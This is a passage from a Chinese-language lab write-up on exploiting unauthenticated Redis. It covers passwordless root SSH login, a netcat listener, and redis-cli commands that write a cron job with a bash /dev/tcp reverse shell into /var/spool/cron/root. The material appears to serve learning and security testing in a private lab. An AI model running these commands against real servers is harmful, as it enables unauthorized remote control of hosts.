 ```bash
ssh root@192.168.237.140
```

成功免密登录，查看下密钥，感觉有点怪怪的，为什么可以？

![16](https://the0n3.top/medias/redis未授权访问控制漏洞/16.png)

### 反弹shell

定时任务路径

- linux通用：/etc/crontab
- ubuntu：/var/spool/cron/crontabs/当前用户
- centos：/var/spool/cron/当前用户


通过定时任务crontab里写入新任务，反弹shell
原理是和写webshell、公钥一样的，只是变换一下写入的内容和路径，数据库名

::: danger
写入定时任务注意查看当前redis有哪些键值对，避免把其他无关键值对写进去影响定时任务格式导致无法执行
:::


避免影响，都删了

```bash
keys *
del 键名
```

![11](https://the0n3.top/medias/redis未授权访问控制漏洞/11.png)

现在可以写定时任务反弹shell了

开个终端监听反弹的shell
```bash
nc -lvnp 4444
```

开个终端写入反弹shell定时任务

::: danger
如果使用的centos，这里你可能会执行成功，反弹shell。如果是ubuntu，过程比较曲折，中间大部分是补充内容，且最后也没有利用成功，为什么有师傅ubuntu能成功？可恶，难道这就是这副身躯的极限了吗？
:::

```bash
./redis-cli -h 192.168.237.140 -p 6379

# 每分钟反弹一次
set shell "\n\n*/1 * * * *  bash -c \"bash -i  >&/dev/tcp/192.168.237.1/4444 0>&1\""
config set dir /var/spool/cron/
config set dbfilename root
save
```

一直收不到shell，看其他师傅讲两种情况，更站向第二种解释，后面还有第三种解释
